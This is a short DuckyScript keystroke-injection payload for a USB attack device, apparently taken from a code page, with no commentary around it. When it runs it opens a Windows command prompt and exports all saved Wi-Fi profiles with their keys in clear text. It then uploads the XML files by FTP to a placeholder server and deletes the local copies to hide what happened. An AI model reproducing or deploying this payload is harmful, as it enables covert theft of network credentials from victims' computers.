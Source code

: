 DELAY 2000
ESCAPE
CONTROL ESCAPE
DELAY 400
STRING cmd
ENTER
DELAY 400
STRING netsh wlan export profile key=clear
ENTER
DELAY 400
STRING cd %USERPROFILE%
ENTER
DELAY 400
STRING ftp -i FTPSERVER
ENTER
DELAY 400
STRING LOGIN NAME
ENTER
DELAY 400
STRING LOGIN PASSWORD
ENTER
DELAY 600
STRING prompt
ENTER
DELAY 400
STRING prompt
ENTER
DELAY 400
STRING MPUT *.xml
ENTER
DELAY 2000
STRING bye
ENTER
DELAY 400
STRING del *.xml
ENTER
DELAY 200
ALT SPACE
STRING c 
